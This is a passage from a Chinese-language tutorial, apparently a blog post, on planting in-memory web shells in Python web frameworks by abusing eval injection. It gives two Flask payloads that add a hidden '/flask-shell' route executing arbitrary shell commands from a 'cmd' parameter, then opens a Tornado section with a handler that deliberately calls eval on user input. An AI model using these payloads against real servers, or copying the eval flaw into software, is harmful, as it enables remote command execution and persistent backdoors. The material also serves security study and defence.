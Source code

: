 在 `eval` 场景下，没有办法执行多条代码，所以这里需要发送两条请求来完成操作，当前上下文中可以直接使用 `app` 对象，构造第一条请求向 `url_map` 中新增一条 `UrlRule`。

```python
app.url_map.add(app.url_rule_class('/flask-shell', methods=['GET'],endpoint='shell'))
```

这个时候已经可以访问 `/flask-shell` 路由，但是由于 `view_functions` 中并不存在路由指定的 `endpoint` 所以会报错。

 ![](/attachments/2024-07-10-python-web/c7403c53-65c6-44b4-a823-13facc30c0e4.png)

之后再构造第二条请求，向 `view_functions` 中增加对应 `endpoint` 的实现。

```python
app.view_functions.update({'shell': lambda:__import__('os').popen(request_context.top.request.args.get('cmd', 'whoami')).read()})
```

为了灵活性这里需要http传参来控制执行的命令，但是这里会发现上下文中并不存在 `request_context`，当前 `app` 对象中的 `request_context` 是一个函数。

 ![](/attachments/2024-07-10-python-web/9104cbf3-111d-4eb0-a157-9ae9922cf1da.png)

那么可以通过函数的 `__globals__` 属性来获取当前的全局变量字典，在这其中就有需要的 `RequestContext` 对象。

 ![](/attachments/2024-07-10-python-web/c22c30c5-9669-48b1-9e01-6ce01e3c9d91.png)

所以修改一下第二条payload如下：

```python
app.view_functions.update({'shell': lambda:__import__('os').popen(app.request_context.__globals__['request_ctx'].request.args.get('cmd', 'whoami')).read()})
```

### 2.5 结果

将两条payload发送完成后，即可新增一条任意命令执行的路由 `/flask-shell`。

 ![](/attachments/2024-07-10-python-web/0977c008-c2d5-4d00-9e13-c5271d1ccae2.png)

## 三、Tornado

### 3.1 场景代码

```python
import tornado

class MainHandler(tornado.web.RequestHandler):
    def get(self):
        result = eval(self.get_argument('expression'))
        self.write('<h2>result: %s!</h2>' % result)

def make_app():
    return tornado.web.Application([
        (r"/", MainHandler),
    ], debug=True, autoreload=True)

if __name__ == '__main__':
    app = make_app()
    app.listen(5000)
    print("listen: 5000")
    tornado.ioloop.IOLoop.instance().start()
```
